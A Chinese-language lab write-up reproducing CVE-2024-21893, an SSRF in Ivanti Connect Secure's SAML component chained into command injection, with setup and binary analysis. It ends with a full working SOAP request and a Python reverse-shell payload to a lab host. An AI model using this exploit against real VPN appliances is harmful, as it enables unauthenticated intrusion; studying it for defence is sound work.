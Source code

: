 0x01 简介
Ivanti Connect Secure 为远程和移动用户提供了一个无缝的、具有成本效益的SSL VPN 解决方案，使他们能随时随地从任何可上网的设备访问企业资源。

0x02 漏洞概述
漏洞编号：CVE-2024-21893
CVE-2024-21893 是存在 Ivanti Connect Secure SAML 组件中的 SSRF 漏洞，该漏洞主要是由于使用存在漏洞第三方库，并且第三方库没有及时的更新导致的，可以绕过 CVE-2024-21887 命令注入漏洞的补丁，达到未授权 RCE 的目的。

0x03 影响版本
Ivanti Connect Secure（9.x、22.x）
Ivanti Policy Secure（9.x、22.x）
Ivanti Neurons for ZTA SAML组件(这个只能SSRF)

0x04 环境搭建
本次复现使用 Ivanti Connect Secure 22.6R2.1 (build 2487)版本并导入缓解措施 mitigation.release.20240107.1.xml

下载虚拟机版本的 Ivanti Connect Secure，导入虚拟机中


这里需要等带一下，等待系统解压安装完成，完成安装之后按照如下配置进行初始化：


随后新建管理员


创建管理员完成


进入系统自带的 shell 界面


访问 https://ip/admin 进入后台导入 mitigation.release.20240107.1.xml 缓解措施


mitigation.release.20240107.1.xml 缓解措施主要是对 CVE-2023-46805 和 CVE-2024-21887 的缓解，该措施禁止访问存在漏洞的接口。

0x05 漏洞分析
获取 shell 可以参考这篇博客里面提到的方法 https://labs.watchtowr.com/welcome-to-2024-the-sslvpn-chaos-continues-ivanti-cve-2023-46805-cve-2024-21887/

获取 shell 之后进入 /home/bin 目录，执行 python -m SimpleHTTPServer 8899 启动 http 服务，下载 web 和 saml-server 二进制文件， 下载之后将 web 放入 IDA 中进行分析，找到路由 /dana-ws/saml20.ws，是没有鉴权的，还有一些没有鉴权的路由如下：


接着来看对 /dana-ws/saml20.ws 路由请求的处理


这里会匹配 /dana-ws/saml20.ws，/dana-ws/saml.ws, /dana-ws/samlecp.ws 再接收到请求后由 doDispatchRequest 转发到 saml-server 中处理


在 saml-server 中由 createXMLObjectFromSoapMessage 函数将 soap 数据换成 xml 数据，最后由 xmltooling 库进行处理，而 xmltools 在 3.2.4 以下的版本是存在一个 SSRF 漏洞，该漏洞可以通过构造 KeyInfo 来实现SSRF。在本次复现的环境中使用的 xmltooling 版本为 3.2.0


因此完整的利用链如下：

构造一个带 KeyInfo 的 SOAP 信封发送到 /dana-ws/saml20.ws
在内部由 web 服务器将请求转发到 saml-server 上，saml-server 会调用 xmltooling 库解析 xml 数据
由于 xmltooling 存在 SSRF 漏洞，伪造请求访问 http://127.0.0.1:8090/api/v1/license/keys-status/，绕过了缓解措施 mitigation.release.20240107.1.xml
/api/v1/license/keys-status/ 存在命令注入，可以执行系统任意命令

```http
POST /dana-ws/saml20.ws HTTP/1.1
Host: 192.168.0.190
Sec-Ch-Ua-Platform-Version: "13.6.4"
Sec-Ch-Ua-Mobile: ?0
Content-Type: text/xml
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 1157

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
 <soap:Body>
  <ds:Signature
  xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
   <ds:SignedInfo>
    <ds:CanonicalizationMethod Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#"/>
    <ds:SignatureMethod Algorithm="http://www.w3.org/2000/09/xmldsig#rsa-sha1"/>
   </ds:SignedInfo>
   <ds:SignatureValue>qwerty</ds:SignatureValue>
   <ds:KeyInfo xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.w3.org/2000/09/xmldsig" xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
    <ds:RetrievalMethod URI="http://127.0.0.1:8090/api/v1/license/keys-status/%3Bpython%20%2Dc%20%27import%20socket%2Csubprocess%3Bs%3Dsocket%2Esocket%28socket%2EAF%5FINET%2Csocket%2ESOCK%5FSTREAM%29%3Bs%2Econnect%28%28%22192%2E168%2E0%2E133%22%2C8899%29%29%3Bsubprocess%2Ecall%28%5B%22%2Fbin%2Fsh%22%2C%22%2Di%22%5D%2Cstdin%3Ds%2Efileno%28%29%2Cstdout%3Ds%2Efileno%28%29%2Cstderr%3Ds%2Efileno%28%29%29%27%3B"/>
    <ds:X509Data/>
   </ds:KeyInfo>
   <ds:Object></ds:Object>
  </ds:Signature>
 </soap:Body>
</soap:Envelope>
```

反弹shell payload：
```url
http://127.0.0.1:8090/api/v1/license/keys-status/;python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.133",8899));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())';
```